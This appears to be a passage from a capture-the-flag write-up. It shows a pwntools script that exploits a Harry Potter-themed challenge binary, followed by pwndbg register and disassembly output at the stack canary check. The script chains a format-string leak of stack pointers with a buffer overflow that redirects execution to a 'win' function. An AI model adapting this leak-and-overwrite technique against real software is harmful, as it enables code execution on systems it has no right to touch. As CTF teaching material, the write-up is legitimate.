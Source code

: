 ```python
from pwn import *

p = process("./pwn2")


p.readline()
p.sendline("CSCG{THIS_IS_TEST_FLAG}") # Format string exploit
p.readline()

p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values

print(leaks)

leak_addr = int(leaks[38],16) # get the leaked return address

ret = leak_addr - 0x2e # calculate the address of an ret instruction

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa

input()

p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(ret) + p64(win))

p.interactive()
```


I set a breakpoint at the xor instruction, that compares the stored and the
intended cookie to get the real cookie
```
Breakpoint 1, 0x000055b68bb82d64 in AAAAAAAA ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────
 RAX  0x2d4d84e5d9bedcd2
 RBX  0x55b68bb82de0 (__libc_csu_init) ◂— push   r15
 RCX  0x7fd41d6e7567 (write+23) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7fd41d7b9320 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7fd41d7b7583 (_IO_2_1_stdout_+131) ◂— 0x7b9320000000000a /* '\n' */
 R8   0xb
 R9   0x0
 R10  0x7fd41d782357 ◂— 0x667600296c696e28 /* '(nil)' */
 R11  0x246
 R12  0x55b68bb82930 (_start) ◂— xor    ebp, ebp
 R13  0x7fffd6dfe3a0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffd6dfe290 ◂— 0x9219e82fe45878cb
 RSP  0x7fffd6dfe180 ◂— 'Expelliarmus'
 RIP  0x55b68bb82d64 (AAAAAAAA+101) ◂— xor    rax, qword ptr fs:[0x28]
─────────────────────────────────────────[ DISASM ]──────────────────────────────────────────
 ► 0x55b68bb82d64 <AAAAAAAA+101>    xor    rax, qword ptr fs:[0x28]
   0x55b68bb82d6d <AAAAAAAA+110>    je     AAAAAAAA+141 <0x55b68bb82d8c>
    ↓
   0x55b68bb82d8c <AAAAAAAA+141>    leave  
   0x55b68bb82d8d <AAAAAAAA+142>    ret    

```